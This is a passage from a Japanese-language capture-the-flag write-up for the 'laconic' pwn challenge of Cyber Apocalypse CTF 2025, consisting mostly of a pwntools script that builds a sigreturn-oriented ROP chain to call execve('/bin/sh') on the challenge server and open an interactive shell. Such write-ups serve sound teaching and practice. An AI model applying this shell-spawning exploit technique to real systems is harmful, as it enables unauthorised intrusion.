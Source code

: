 あるので`execve`を呼び出せそうです。

```python
from pwn import *
import time

context.log_level = "debug"
binfile = './laconic'
rhost = '83.136.249.101'
rport = 40173

elf = ELF(binfile)
context.binary = elf

def conn():
    if args.REMOTE:
        p = remote(rhost, rport)
    else:
        p = process(elf.path)
    return p

rop = ROP(elf)

syscall_ret = 0x0000000000043015
pop_rax = 0x0000000000043018
binsh = 0x43238
offset = b'A'*0x8

frame = SigreturnFrame(kernel="amd64")
frame.rax = 59 #execve
frame.rdi = binsh 
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret

rop.raw(offset)
rop.raw(pop_rax)
rop.raw(15) # syscall 15
rop.raw(syscall_ret)
rop.raw(frame)
print(rop.dump())

p = conn()
time.sleep(0.5)

p.sendline(rop.chain())

p.interactive()
```

![88](/images/cyber-apocalypse-ctf-2025/pwn/88.png)
